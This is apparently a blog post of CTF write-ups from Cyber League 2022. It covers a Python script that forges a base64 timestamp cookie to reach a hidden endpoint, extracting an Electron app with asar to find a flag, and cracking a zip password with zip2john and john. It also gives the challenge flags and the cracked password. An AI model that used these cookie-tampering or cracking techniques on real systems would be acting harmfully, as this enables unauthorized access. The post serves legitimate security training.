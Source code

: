 ```yaml
---
layout: post
title: Cyber League CTF 2022 - Writeups
categories:
- CTF
- Web-exploitation
tags:
- CTF
- Web-exploitation
- Forensics
- Cyber-League
date: 2022-05-02 10:16 +0800
---
```

## Simulated bomb drill

This is the first challenge for the web category in cyber league's CTF. A web endpoint is given for us to start enumerating. When you first hit the main page you are issued a base64 encoded cookie that contains the time in the following format. And at the same time an imaginary bomb timer countdown starts.

![cookie](https://bn1304files.storage.live.com/y4mSu5_wHVLBsroBYQUT9z97CIOX7BLmmwLCzSZhe_sArd5JxbUMIiMDl2K8Q3IXyFsXcjcSbzcholSUdVS-27Ley7PHhZ4KOi6DakV7SyUH-VEbfN6-vyKfSb_EzWxYAKbV8wdjinV1r2p6gDtPw7ewWrHjwmZR2V_DXI2cT-YN0OwDXizBEpOAHs1IoZyYsN2?width=2872&height=936&cropmode=none)

```txt
2022-05-01 12:41:35.329922
```

By the time we visit the `/defuse` endpoint, it would be too late and the bomb would have been blown. The bomb needs to be defused with 0 microseconds passed. So it is physically impossible to do this by hand. The algorithm to get the flag endpoint is as below.

1. Decode the base64 time from cookie
2. Measure the time elasped from the first request
3. Minus off the time elasped from the cookie time
4. Encode the new time into the cookie and send the request

We can code the above steps as below in python.

```python
import requests
import base64

s = requests.Session()

res = s.get('http://13.213.72.54:5003/')

# Get time elapsed in microseconds
time_elapsed = res.elapsed
time_elapsed = time_elapsed.total_seconds()
print(res.elapsed)
# 0:00:00.019976


time_to_decode = s.cookies.get_dict()['princesspeach']
decoded_datetime = base64.b64decode(time_to_decode).decode('utf-8')
# '2022-05-01 12:41:35.329922'
decoded_time = decoded_datetime.split('.')
# ['2022-05-01 12:41:35', '308641']
decoded_microseconds = decoded_datetime.split('.')[1]
# '329922'
decoded_microseconds_in_seconds = int(decoded_microseconds)/1000000
# 0.329922

new_time = decoded_microseconds_in_seconds - time_elapsed
new_time_in_microseconds = int(new_time * 1000000)
# 308641

decoded_time[1] = str(new_time_in_microseconds)

to_encode = ''.join(decoded_time)
# '2022-05-01 12:41:35308641'
encoded_time = base64.b64encode(bytes(to_encode, 'utf-8'))
# b'MjAyMi0wNS0wMSAxMjo0MTozNTMwODY0MQ=='

s.cookies['princesspeach'] = encoded_time
res = s.get('http://13.213.72.54:5003/defuse')
print(res.content)

""" >>> print(res.content)
b'<!DOCTYPE html>\n<html>\n<head>\n <title></title>\n <meta charset="utf-8" />\n</head><body>\n<div class="bd-example" align="middle">\n\n<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />\n\n</div>\n</body>\n</html>' """
```

We managed the get the flag endpoint like below.

```html
<img src="/static/712a8b4446afb5d43da0dea63cd1c13b.jpg"align="middle" />
```

Visit the endpoint and you will be able to get the flag.

![flag](https://bn1304files.storage.live.com/y4mZLD6Ua4apnvDZjqDKWnzRFYFCsqkIm-c1GpA0_AMbdm8vp3qwR27yEkIssKJ7iVkcQPPeGryziw-4e9dC8ijsw2-9RCFGbeAh2HgFtWampNx94gZwH8shXi-siMMX_zED4XYBtEAK_3YmXvxVFxWW57iEateBhtfOiB2jNQvlDfcHdMH56ycnRwfyLyml9sL?width=533&height=496&cropmode=none)

## Write farewell letters

This challenge is the misc category of the CTF. 3 types of installation files are given with flag hidden.

The application is doing nothing much but hiding and showing the message as below.

![yoda](https://bn1304files.storage.live.com/y4mZ-4GT0gAj1OIaP2vgKopCFYLmbTMW8CMGiceqQjOIwTQL0jeezJSFWnsU8vNcWb2IA1NLW1WUZeqImILtFu6mtkrruZJ4DtSDBnp1koFd2k53r1e21PRsADdcbgQcWy8qldFQYQxq27_IYZb1rMjxFepvAyrMrl09F1yJoxynd_FY1QcFtynnFrzfwDQdO1k?width=1134&height=1344&cropmode=none)

I had my suspicioun that this could be an electron app. To decompile it we can use npm's asar to extract the source code. Below is the capture of how i extracted out the electron source code.

```bash
➜  cyleague cd peekaboo.app 
➜  peekaboo.app cd Contents 
➜  Contents cd Resources 
➜  Resources ls
am.lproj      de.lproj      fi.lproj      id.lproj      mr.lproj      ro.lproj      te.lproj
app.asar      el.lproj      fil.lproj     it.lproj      ms.lproj      ru.lproj      th.lproj
ar.lproj      en.lproj      fr.lproj      ja.lproj      nb.lproj      sk.lproj      tr.lproj
bg.lproj      en_GB.lproj   gu.lproj      kn.lproj      nl.lproj      sl.lproj      uk.lproj
bn.lproj      es.lproj      he.lproj      ko.lproj      peekaboo.icns sr.lproj      vi.lproj
ca.lproj      es_419.lproj  hi.lproj      lt.lproj      pl.lproj      sv.lproj      zh_CN.lproj
cs.lproj      et.lproj      hr.lproj      lv.lproj      pt_BR.lproj   sw.lproj      zh_TW.lproj
da.lproj      fa.lproj      hu.lproj      ml.lproj      pt_PT.lproj   ta.lproj
➜  Resources mkdir decompile-electron
➜  Resources asar extract app.asar decompile-electron 
➜  Resources cd decompile-electron 
➜  decompile-electron code .
```

After decompiling, we open the source code in electron to analyse. From root folder navigate to js folder to index.js as below.

```In js > index.js```

```javascript
var visibilitySetting = 'hidden'

function load() {
    document.getElementById('showButton').innerHTML = 'show'
}

function showVersions() {
    if (visibilitySetting === 'visible') {
        visibilitySetting = 'hidden'
        document.getElementById('versions').style.visibility = 'hidden'
        document.getElementById('showButton').innerHTML = 'show'
    }
    else {
        visibilitySetting = 'visible'
        document.getElementById('versions').style.visibility =' visible'
        document.getElementById('showButton').innerHTML = 'hide'
    }
}

function shinyKnob() {
    console.log('CYBERLEAGUE{7h3_cu73n355_15_5720n9_w17h_7h15_0n3}')
}
```

## Understand space politics

This is a forensics challenge where challengers are given a `.7z` file with flag text underneath. The challenge is straightfoward to crack the zip file password to get the flag. Below is the capture of using zip2john to crack the zip file.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ zip2john hello_there.zip > ziphashes
ver 2.0 hello_there.zip/hello_there.txt PKZIP Encr: cmplen=41, decmplen=29, crc=87D14E54 ts=A8AF cs=87d1 type=0
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat ziphashes 
hello_there.zip/hello_there.txt:$pkzip$1*1*2*0*29*1d*87d14e54*0*2d*0*29*87d1*8facba0e3e10e650ad9dc1fc89e000dfcff60fe4858a519eb33e8f1f9380a9633f39729fb0e101c9eb*$/pkzip$:hello_there.txt:hello_there.zip::hello_there.zip
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ john ziphashes 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/usr/share/john/password.lst
Proceeding with incremental:ASCII
2hot4u           (hello_there.zip/hello_there.txt)     
1g 0:00:00:02 DONE 3/3 (2022-05-01 09:13) 0.3521g/s 2067Kp/s 2067Kc/s 2067KC/s cjjlip..2hul83
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

The password is `2hot4u` to extract out the flag.

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ unzip hello_there.zip 
Archive:  hello_there.zip
[hello_there.zip] hello_there.txt password: 
 extracting: hello_there.txt         
                                                       
┌──(kali㉿kali)-[~/Documents]
└─$ cat hello_there.txt 
CYBERLEAGUE{Y0U_Fo|_|nD_3e!}
```
